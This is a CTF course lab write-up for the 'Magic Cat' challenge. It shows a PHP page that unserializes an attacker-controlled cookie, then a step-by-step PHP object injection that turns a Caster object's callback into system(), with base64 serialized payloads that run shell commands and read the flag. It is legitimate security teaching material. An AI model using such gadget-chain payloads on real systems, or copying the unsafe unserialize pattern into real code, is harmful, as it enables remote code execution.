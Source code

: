 ```yaml
---
title: Simple Web 0x18(Lab - Magic Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x18(Lab - Magic Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8602/

## Background
None...

## Source code
:::spoiler code
```php=<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'intval';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}


class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}

if (isset($_GET['spell'])) {
    $cat = new Cat($_GET['spell']);
} else if (isset($_COOKIE['cat'])) {
    echo "Unserialize...\n";
    $cat = unserialize(base64_decode($_COOKIE['cat']));
} else {
    $cat = new Cat("meow-meow-magic");
}
?>
<pre>
This is your 🐱:
<?php var_dump($cat) ?>
</pre>

<p>Usage:</p>
<p>/?source</p>
<p>/?spell=the-spell-of-your-cat</p>

```
:::

### Description & Analyze

## Exploit - unserialize
1. Test payload in local side
    ```bash!
    $ ./psysh
    > class Caster
    . {
    .     public $cast_func = 'intval';
    .     function cast($val)
    .     {
    .         return ($this->cast_func)($val);
    .     }
    . }
    > $test = new Caster
    = Caster {#2772
        +cast_func: "intval",
      }

    > $test->cast_func = 'system'
    = "system"
    > $test->cast('pwd')
    = "/home/sbk6401"
    ```
2. Construct serialized session
    ```bash!
    > class Cat
    . {
    .     public $magic;
    .     public $spell;
    .     function __construct($spell)
    .     {
    .         $this->spell = $spell;
    .         $this->magic = new Caster();
    .     }
    .     function __wakeup()
    .     {
    .         echo "Cat Wakeup!\n";
    .         $this->magic->cast($this->spell);
    .     }
    . }
    > $cat = new Cat("ls -al /")
    = Cat {#2771
        +magic: Caster {#2763
          +cast_func: "intval",
        },
        +spell: "ls -al /",
      }
    > $cat->magic->cast_func = "system"
    = "system"
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjg6ImxzIC1hbCAvIjt9"
    ```
    ![](https://i.imgur.com/x5tCrhb.png)

3. Get flag
    ```bash!
    > $cat->spell = "cat /flag*"
    = "cat /flag*"

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"
    ```
    ![](https://i.imgur.com/c5Kq7c4.png)

Flag: `FLAG{magic_cat_pwnpwn}`

## Reference
[PHP物件導向的第一課：class ](https://ithelp.ithome.com.tw/articles/10114633)
[【第十九天 - PHP反序列化(1)】](https://ithelp.ithome.com.tw/articles/10277044)